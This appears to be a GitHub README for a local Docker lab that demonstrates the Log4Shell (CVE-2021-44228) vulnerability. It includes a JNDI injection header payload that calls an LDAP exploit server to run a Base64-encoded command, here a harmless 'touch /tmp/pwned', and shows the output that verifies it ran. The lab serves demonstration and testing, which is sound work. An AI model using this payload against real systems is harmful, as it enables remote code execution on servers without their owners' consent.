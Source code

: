 # Log4Shell CVE-2021-44228 Demo
## Environment Setup

### LDAP server

Firstly build a docker image with ldap exploit `docker build -t iteratec.io/log4shell-ldap ./ldap`

### Run

Use provided docker-compose to start vunerable application and ldap server exploit.

## Executing remote code

Once your containers are up you may try to execute some remote code:

`url localhost:8080  -H 'X-Api-Version: ${jndi:ldap://172.16.238.10:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`

The Base64 param value is actual command that is beeing executed:
```
➜ echo 'dG91Y2ggL3RtcC9wd25lZAo=' | base64 -D
touch /tmp/pwned
```

### Verify

You can verify that the _/tmp/pwned_ file has been created.
```
➜ docker exec log4shell-app-1 ls -la /tmp

total 28
drwxrwxrwt    1 root     root          4096 Nov 21 20:57 .
drwxr-xr-x    1 root     root          4096 Nov 21 20:41 ..
drwxr-xr-x    2 root     root          4096 Nov 21 20:57 hsperfdata_root
-rw-r--r--    1 root     root             0 Nov 21 20:57 pwned
drwx------    2 root     root          4096 Nov 21 20:57 tomcat-docbase.8080.7482410478278179066
drwx------    3 root     root          4096 Nov 21 20:57 tomcat.8080.5953130939003932607
drwx------    3 root     root          4096 Nov 21 20:42 tomcat.8080.6143343860570001124
drwx------    3 root     root          4096 Nov 21 20:41 tomcat.8080.8599857554077526416
```
